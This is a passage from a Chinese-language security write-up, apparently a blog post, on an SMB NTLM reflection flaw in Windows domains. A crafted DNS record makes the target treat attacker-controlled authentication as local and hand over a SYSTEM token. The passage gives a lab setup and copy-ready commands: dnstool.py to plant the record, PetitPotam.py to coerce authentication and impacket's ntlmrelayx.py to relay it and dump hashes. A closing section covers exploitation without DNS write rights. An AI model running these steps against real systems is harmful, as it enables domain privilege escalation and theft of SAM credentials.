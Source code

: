 1、攻击者向域 DNS 注入一条格式特殊的记录（例如 srv11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA），指向其控制的 IP。该名称的前缀与目标主机名一致（如 srv1），后缀为固定填充字符  
  
2、当目标机器（如 SRV1）被诱骗连接此名称时（通过 PetitPotam 等工具触发），SMB 客户端错误地将该名称解析为本机主机名（srv1），误判为“本地身份认证请求”  
  
3、因误判为本地调用，SMB 客户端在 NTLMSSP_NEGOTIATE 消息中主动填充本机工作站名和域名（正常远程认证中该字段为空）在本地认证模式下，客户端无需计算挑战响应。相反，它直接将当前进程的 令牌（Token） 插入服务端上下文（通过 Reserved 中的 ID 传递）  
  
4、触发认证的进程是 lsass.exe（以 SYSTEM 权限运行），因此客户端插入的令牌是 SYSTEM 令牌。服务端获取该令牌后，直接模拟 SYSTEM 身份执行后续操作（如启动服务、转储 SAM 数据库）  
### 2.2.1、复现环境  

```
DC：win2008
受害机器：win2016
攻击机器：kali
```

### 2.2.2、复现命令  
  
shell_1窗口  

```
# 注册恶意dns，0day.org为域名，需要根据实际情况修改
python3 dnstool.py -u '0day.org\账户' -p '密码' -a modify -r localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -d 攻击ip 域控ip

# relay 并且进行dump hash
python3 /usr/share/doc/python3-impacket/examples/ntlmrelayx.py -t 受害机器 -smb2support

```

  
shell2_窗口  

```
# 0day.org为域名，需要根据实际情况修改
python3 PetitPotam.py -u 账户 -p '密码' -d 0day.org localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/36ssDibLXxGRVUZp1Ec9TXtTYsBGM4Y1ofMsQu32wMQCzOibB5shL7YGzgxru0icic3THJpqgb1ic7Zib30CETYK72eQ/640?wx_fmt=png&from=appmsg "null")  
  
  
注：localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA是通用的，只要修改该域名指向攻击机器即可，不需要修改域名。  
## 2.3、艰难利用  
### 2.3.1、安全禁止普通用户申请解析  
  
在一些AD环境中，是禁止普通用户申请域名解析的，那我们还能够进行利用吗？  
  
答案是可以的，在上面的漏洞利用逻辑中，我们发现其实通过受害机器通过域名访问恶意服务器的时候srv11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA就会触发漏洞，并不需要校验该域名。  
  
那只要把srv11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA指向攻击机器即可（因为会解析该域并且返回凭据），**所以我们的结论是：不非要在AD域内申请解析，只要能修改受害机器上srv11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA的解析即可。**  
  
